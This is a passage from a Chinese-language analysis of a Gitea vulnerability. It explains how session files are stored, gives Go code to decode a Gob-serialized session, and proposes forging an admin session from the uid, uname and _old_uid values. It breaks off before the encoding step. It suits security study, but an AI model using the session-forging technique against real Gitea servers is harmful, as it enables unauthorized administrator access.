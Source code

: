 然后写入文件

```go
func (p *FileProvider) filepath(sid string) string {
	return path.Join(p.rootPath, string(sid[0]), string(sid[1]), sid)
}
```

可以看到session的生成是通过特有的Gob序列化后保存成文件，路径特点是`sid[0]/sid[1]/sid `

我们来分析一个认证成功的session`/data/gitea/sessions/0/9/09cfb25c946d6187`，前两位为路径名，后面为sid，共同组成一个session文件

我们使用相应的`DecodeGob()`方法(vendor/github.com/go-macaron/session/utils.go:47)来解开看一下session里包含的内容，其中`session_data`即是`session`文件的hex内容。代码如下

```go
package main

import (
	"encoding/gob"
	"encoding/hex"
	"fmt"
	"bytes"
)

func DecodeGob(encoded []byte) (out map[interface{}]interface{}, err error) {
	buf := bytes.NewBuffer(encoded)
	err = gob.NewDecoder(buf).Decode(&out)
	return out, err
}

func main() {
	session_data := "0EFF81040102...03000131"	//太长省略
	buf, err := hex.DecodeString(session_data)
	fmt.Println(buf)
	if err != nil {
		fmt.Println(err)
	}
	decode_data, err := DecodeGob(buf)
	if err != nil {
		fmt.Println(err)
	}
	fmt.Println(decode_data)
}
```

运行结果：

![1531898336305](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1531898336305.png)

可以看到主要是以`_old_iod` `uid` `uname`三个值组成的session内容，那么我们就可以构造一组这样的值来伪造一个session

`[uid:1 uname:admin123 _old_uid:1]`

生成session使用`EncodeGob()`方法：
